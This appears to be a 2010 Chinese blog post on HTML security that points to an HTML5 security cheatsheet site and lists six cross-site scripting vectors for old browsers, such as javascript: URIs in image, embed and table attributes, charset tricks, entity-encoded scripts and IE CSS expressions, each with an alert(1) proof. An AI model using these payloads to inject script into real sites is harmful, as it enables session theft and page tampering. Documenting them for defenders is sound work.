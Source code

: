 # HTML 安全列表
>date: 2010-05-12T08:57:38+08:00


下面这个网站罗列了，几乎所有的关于HTML 5 在各种主流浏览器上的安全问题，这些安全问题很有可能将会是黑客攻击你的网上的敲门砖，他们几乎都和Javascript都有关系，你就要好好注意了。


[**http://heideri.ch/jso/**](http://heideri.ch/jso/)


下面罗列几个：


**1）<table background=”javascript:alert(1)”>**


IE6，7，8，9，和Opera 8.x, 9.x, 10.x 都支持这样的语法。


**2）<meta charset=”mac-farsi”>¼script¾alert(1)¼/script¾**


这个问题会存在于所有的Firefox版本中，可以让用户进行XSS（跨站脚本）攻击


**3）<script>&amp;#x61;l&amp;#x65;rt&amp;#40;1)</script>**


在<script>和<style>的TAG间，根据标据，其可以使用这样的字符来运行脚本。这在所有版本的Firefox, Opera, 和 Chrome中都会有问题。



**4）({set/\*\*/$($){\_/\*\*/setter=$,\_=1}}).$=alert**


上面这个是Firefox的一个[语法](https://developer.mozilla.org/en/Core_JavaScript_1.5_Guide/Working_with_Objects#Defining_Getters_and_Setters)，也会产生XSS攻击。


**5）<div style=”font-family:foo}x=expression(write(1));”>XXX</div>**


自从IE5.5后，直到IE9，IE就可以支持上面这样的语法。


**6）src中是可以运行脚本的，如：**


<embed src=”javascript:alert(1)”>  

<img src=”javascript:alert(1)”>  

<image src=”javascript:alert(1)”>  

<script src=”javascript:alert(1)”>


又一个XSS攻击，几乎所有的浏览器都支持这样的方式，如：Firefox全部版本，Chrome 4.x/5.x，Opera 8.x/9.x/10.0，IE 6.0/7.0和Safari 3.x/4.x



还有很多，大家自己去看吧，这个网站经常更新的。总体感觉下来，IE和Firefox的安全问题都在伯仲之间，Safari貌似是问题最少的。






